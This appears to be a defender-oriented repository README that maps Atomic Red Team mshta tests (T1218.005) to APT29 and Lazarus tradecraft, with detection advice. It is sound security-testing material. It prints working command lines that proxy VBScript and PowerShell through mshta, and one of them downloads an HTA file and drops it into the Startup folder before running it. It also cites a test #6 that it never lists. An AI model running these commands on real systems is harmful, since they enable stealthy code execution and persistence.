 # Atomic Red Team Tests for APT29 and Lazarus Group - T1218.005 Signed Binary Proxy Execution: Mshta

This repository documents selected **Atomic Red Team tests for T1218.005 (Signed Binary Proxy Execution: Mshta)** that closely emulate the tradecraft of **APT29** (a.k.a. Cozy Bear, Midnight Blizzard) and **Lazarus Group**.

The goal is to:
* Provide defenders with a curated set of relevant tests for detecting mshta abuse activities
* Map each test to known adversary behaviors and campaigns
* Highlight overlap and differences between the groups' execution techniques

---

## Background

* **APT29** (Cozy Bear, Midnight Blizzard) is a Russian state-sponsored threat group
  * Known for sophisticated cyber espionage and the **SolarWinds compromise**
  * Frequently uses **living-off-the-land techniques** with legitimate system utilities
  * Employs **mshta.exe** to execute malicious scripts and bypass application controls

* **Lazarus Group** is a North Korean state-sponsored threat group
  * Known for **financial theft campaigns** and destructive attacks
  * Uses **mshta.exe** to execute HTML pages downloaded by initial access documents
  * Leverages trusted Windows utilities to evade detection

Both groups leverage T1218.005 (Mshta) because it allows them to:
* Execute malicious code through a trusted Microsoft-signed binary
* Bypass application control solutions that don't account for mshta abuse
* Execute scripts outside of browser security contexts
* Proxy execution of remote payloads

---

## Selected Atomic Tests for T1218.005

| Test # | Technique | Description | Used By |
|--------|-----------|-------------|---------|
| **2** | Mshta executes VBScript to execute malicious command | Uses VBScript via mshta to run PowerShell commands | **APT29** |
| **3** | Mshta Executes Remote HTML Application (HTA) | Downloads and executes remote HTA file | **Lazarus** |
| **10** | Mshta used to Execute PowerShell | Uses mshta to execute PowerShell commands | **APT29** |

---

## Detailed Test Analysis

### Atomic Test #2 - Mshta executes VBScript to execute malicious command
**Technique:** VBScript Execution via Mshta  
**Adversary Usage:** APT29  
**Command:**
```cmd
mshta vbscript:Execute("CreateObject(""Wscript.Shell"").Run ""powershell -noexit -file PathToAtomicsFolder\T1218.005\src\powershell.ps1"":close")
```
**Explanation:** APT29 has used mshta.exe to execute VBScript that in turn launches PowerShell commands. This technique allows them to chain multiple execution methods and bypass security controls that might monitor PowerShell directly.

### Atomic Test #3 - Mshta Executes Remote HTML Application (HTA)
**Technique:** Remote HTA Execution  
**Adversary Usage:** Lazarus Group  
**Command:**
```powershell
$var =Invoke-WebRequest "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1218.005/src/T1218.005.hta"
$var.content|out-file "$env:appdata\Microsoft\Windows\Start Menu\Programs\Startup\T1218.005.hta"
mshta "$env:appdata\Microsoft\Windows\Start Menu\Programs\Startup\T1218.005.hta"
```
**Explanation:** Lazarus Group has used mshta.exe to execute HTML pages downloaded by initial access documents. This technique allows them to stage payloads from remote locations while leveraging a trusted Windows utility.

### Atomic Test #10 - Mshta used to Execute PowerShell
**Technique:** PowerShell Execution via Mshta  
**Adversary Usage:** APT29  
**Command:**
```cmd
mshta.exe "about:<hta:application><script language="VBScript">Close(Execute("CreateObject(""Wscript.Shell"").Run%20""powershell.exe%20-nop%20-Command%20Write-Host%20Hello,%20MSHTA!;Start-Sleep%20-Seconds%205"""))</script>'"
```
**Explanation:** APT29 has used mshta to execute PowerShell commands, as documented in the 2021 Threat Detection Report by Red Canary. This technique allows them to execute PowerShell while potentially bypassing monitoring that focuses on direct PowerShell execution.

---

## Correlation with APT29 & Lazarus

* **APT29 Focus:**
  * VBScript execution leading to PowerShell (#2, #10)
  * Indirect command execution through trusted utilities
  → Used for stealthy execution during espionage operations

* **Lazarus Group Focus:**
  * Remote HTA execution (#3, #6)
  * Direct download and execution from URIs
  → Used for initial payload delivery and execution chain

* **Overlap:**
  * Both groups abuse **mshta.exe** for execution
  * Both leverage **trusted Windows utilities** to evade detection
  * Both use **multiple execution methods** in chains

---

## Defender Notes

* These tests are high-value because they **closely emulate real-world adversary tradecraft**
* Detection should focus on:
  * mshta.exe executing with unusual parameters (especially with "vbscript:" or "javascript:" prefixes)
  * mshta.exe making network connections to download remote content
  * mshta.exe spawning other processes like PowerShell or cmd
  * mshta.exe executing from unusual directories or with unusual parent processes
* Correlation across events is essential:
  * Process creation + network connections to external domains
  * Unusual parent-child process relationships (e.g., Office applications spawning mshta)
  * Multiple execution methods chained together
* Implement application control to restrict mshta.exe if not needed for business purposes
* Monitor for mshta.exe execution patterns that deviate from normal administrative use

## Campaign References

1. **APT29 Various Campaigns**: Uses mshta to execute VBScript and PowerShell commands for execution
2. **Lazarus Operation Dream Job**: Uses mshta to execute HTML pages downloaded by initial access documents
3. **FIN7 Operations**: Uses mshta.exe to execute VBScript to execute malicious code (as referenced in Atomic Test #2)

## Academic References

1. MITRE ATT&CK Technique T1218.005 - Signed Binary Proxy Execution: Mshta
2. Red Canary: "2021 Threat Detection Report" (APT29 mshta usage)
3. US-CERT: "Hidden Cobra - North Korean Malicious Cyber Activity" (Lazarus Group TTPs)
4. Microsoft: "NOBELIUM targeting IT supply chain" (APT29 techniques)
5. FireEye: "APT29 Domain Fronting With TOR" (2017)